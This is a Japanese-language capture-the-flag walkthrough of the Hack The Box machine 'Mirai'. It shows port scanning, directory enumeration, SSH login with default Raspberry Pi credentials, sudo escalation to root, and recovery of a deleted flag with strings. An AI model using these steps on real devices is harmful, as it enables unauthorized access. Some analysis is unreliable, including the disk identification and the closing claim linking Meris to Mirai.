

# Mirai
Linux · Easy

## 初期偵察

### nmap
```
┌──(kali㉿kali)-[~/htb/Retired_Machines/Mirai]
└─$ nmap -sC -sV 10.10.10.48
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-27 14:58 JST
Nmap scan report for mirai.htb (10.10.10.48)
Host is up (0.22s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp open  domain  dnsmasq 2.76
80/tcp open  http    lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Website Blocked
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 77.09 seconds
```

開放されているポートとサービス

- 22/tcp	open	SSH	OpenSSH 6.7p1 (Debian 5+deb8u3)
- 53/tcp	open	DNS	dnsmasq 2.76
- 80/tcp	open	HTTP	lighttpd 1.4.35

```
┌──(kali㉿kali)-[~/htb/Retired_Machines/Mirai]
└─$ curl -i http://10.10.10.48/
HTTP/1.1 404 Not Found
X-Pi-hole: A black hole for Internet advertisements.
Content-type: text/html; charset=UTF-8
Content-Length: 0
Date: Thu, 27 Mar 2025 06:46:49 GMT
Server: lighttpd/1.4.35
```

Pi-holeが動作している

### 名前解決
```
┌──(kali㉿kali)-[~/htb/Retired_Machines/Mirai]
└─$ echo "10.10.10.48 mirai.htb" | sudo tee -a /etc/hosts 
[sudo] password for kali: 
10.10.10.48 mirai.htb
```

### ディレクトリ探索
```
┌──(kali㉿kali)-[~/htb/Retired_Machines/Mirai]
└─$ gobuster dir -u http://10.10.10.48 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.48
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 0] [--> http://10.10.10.48/admin/]
/swfobject.js         (Status: 200) [Size: 61]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

/adminを発見
`http://10.10.10.48/admin/`にアクセスするとPi-holeという画面が表示された

>Pi-holeは、プライベートネットワークでの使用を目的とした、DNSシンクホールとして機能し、DHCPサーバーとしても動作するLinuxネットワークレベルの広告およびインターネットトラッカーのブロックアプリケーション




Login画面


passwdが分からなかったのでPi-hole default passwdで検索すると
`pi`:`waspberry`と出てきた


しかしログインできなかったのでssh接続試すと行けた


## 初期侵入

### ssh
`pi`:`waspberry`を使う
```
┌──(kali㉿kali)-[~/htb/Retired_Machines/Mirai]
└─$ ssh pi@10.10.10.48                
The authenticity of host '10.10.10.48 (10.10.10.48)' can't be established.
ED25519 key fingerprint is SHA256:TL7joF/Kz3rDLVFgQ1qkyXTnVQBTYrV44Y2oXyjOa60.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.48' (ED25519) to the list of known hosts.
pi@10.10.10.48's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 27 14:47:50 2017 from localhost

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $ id
uid=1000(pi) gid=1000(pi) groups=1000(pi),4(adm),20(dialout),24(cdrom),27(sudo),29(audio),44(video),46(plugdev),60(games),100(users),101(input),108(netdev),117(i2c),998(gpio),999(spi)
pi@raspberrypi:~ $ whoami
pi
```

~/Desktopにuser.txtがあった
```
pi@raspberrypi:~ $ ls
background.jpg  Desktop  Documents  Downloads  Music  oldconffiles  Pictures  Public  python_games  Templates  Videos
pi@raspberrypi:~ $ pwd
/home/pi
pi@raspberrypi:~ $ cd ../
pi@raspberrypi:/home $ ls
pi
pi@raspberrypi:/home $ cd pi/Desktop/
pi@raspberrypi:~/Desktop $ ls
Plex  user.txt
pi@raspberrypi:~/Desktop $ cat user.txt 
ff8*****************************
```

### user.txt
`ff8*****************************`

## 権限昇格

権限を確認すると全部行けそう
```
pi@raspberrypi:~/Desktop $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
```

`sudo su`でroot権限になる
しかしUSBを紛失したと書かれているので探しに行く

```
pi@raspberrypi:~/Desktop $ sudo su
root@raspberrypi:/home/pi/Desktop# ls
Plex  user.txt
root@raspberrypi:/home/pi/Desktop# cat /root/root.txt
I lost my original root.txt! I think I may have a backup on my USB stick...
```

```
root@raspberrypi:/home/pi/Desktop# fdisk -l

Disk /dev/sdb: 10 MiB, 10485760 bytes, 20480 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disk /dev/sda: 10 GiB, 10737418240 bytes, 20971520 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: dos
Disk identifier: 0x0eddfb88

Device     Boot   Start      End  Sectors  Size Id Type
/dev/sda1  *         64  2709119  2709056  1.3G 17 Hidden HPFS/NTFS
/dev/sda2       2709504 20971519 18262016  8.7G 83 Linux

Disk /dev/loop0: 1.2 GiB, 1297825792 bytes, 2534816 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
```


- /dev/sdb (10 MiB)
→ 容量が非常に小さいため、おそらくUSBではなく、別の小型ストレージデバイス (例えば、ブート用の特殊なデバイス) の可能性がある。

- /dev/sda (10 GiB)
→ これが本命のUSBメモリっぽい。パーティションは2つ。
    - /dev/sda1 (1.3 GiB, 隠しNTFSパーティション)
    Windows系のNTFSフォーマットで「Hidden (隠し)」属性がある。リカバリ領域かもしれない。
    
    - /dev/sda2 (8.7 GiB, Linuxフォーマット)
    Linuxの通常パーティション。ここに root.txt のバックアップがある可能性が高い。


```
root@raspberrypi:/home/pi/Desktop# strings /dev/sdb
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
/media/usbstick
2]8^
lost+found
root.txt
damnit.txt
>r &
3d3e*****************************`
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?
-James
```

### root.txt
`3d3*****************************``

## まとめ
今回はデフォルトのusername:passwdで侵入できた
また権限もALLで簡単にroot権限になれた

### Mirai
- Linux OSを基盤とした防犯カメラやルーターなどの家庭用IoTデバイスをターゲットにしたマルウェア
- Miraiは、製品出荷時に設定されたIDとパスワードを利用してIoTデバイスに侵入します。そして、外部からのコマンドに従って遠隔操作できるボットネットを多数構築し、企業のサーバーなどに一斉攻撃を行う
- 2021年には、Miraiを用いた大規模なDDoS攻撃を行ったMerisが25万台のデバイスを乗っ取り、甚大な被害をもたらしたとされている